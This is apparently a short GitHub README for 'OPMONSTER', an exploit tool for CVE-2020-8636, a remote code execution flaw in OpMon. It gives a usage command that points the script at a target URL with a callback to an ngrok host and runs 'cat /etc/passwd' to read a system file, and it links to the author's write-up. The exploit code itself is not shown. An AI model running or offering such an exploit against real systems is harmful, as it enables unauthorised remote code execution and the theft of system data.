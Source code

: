 # CVE-2020-8636 EXPLOIT
### OPMONSTER by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com myhost.ngrok.io 80 "cat /etc/passwd"
 ```

### Remote code execution in Opmon

[More info](https://phor3nsic.gitbook.io/aboutme/articles/three-cves-on-opmon)


###### tags: `CVE-2020-8636` `exploit` `opmon` `RCE` `phor3nsic`
